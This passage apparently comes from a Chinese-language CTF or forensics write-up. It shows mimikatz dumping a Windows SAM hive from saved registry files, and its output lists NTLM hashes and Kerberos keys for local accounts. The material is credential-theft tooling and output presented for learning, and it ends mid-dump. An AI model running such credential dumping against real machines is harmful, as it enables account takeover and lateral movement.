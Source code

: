 然后使用mimikatz获得用户密码

```bash
PS D:\Downloads\config> .\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::sam /SAM:sam /SYSTEM:system
Domain : DESKTOP-7N1LA14
SysKey : 5de6251ef21157e41353c6b76347344c
Local SID : S-1-5-21-3465538928-3890216618-2527938008

SAMKey : 7d62459da0807146580eaeb3aa866c9f

RID  : 000001f4 (500)
User : Administrator

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 6d2312a27dde91e354716c7dfce9b0e3

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : a61f06f2d13b05784b113b091f796179

* Primary:Kerberos-Newer-Keys *
    Default Salt : WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : e79a8b9bb5d0cc54a16258de044df37863078c2792bc346a85010ab44d825552
      aes128_hmac       (4096) : f649fc77df64d4f04e2b0159f393c4ae
      des_cbc_md5       (4096) : dcbfb3ae34f26729

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WDAGUtilityAccount
    Credentials
      des_cbc_md5       : dcbfb3ae34f26729


RID  : 000003e9 (1001)
User : qwe
  Hash NTLM: 117c45b86f0eb51467d24af3c306298a

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 68494080784464a0250c86a7fde2245a

* Primary:Kerberos-Newer-Keys *
    Default Salt : DESKTOP-7N1LA14qwe
    Default Iterations : 4096
```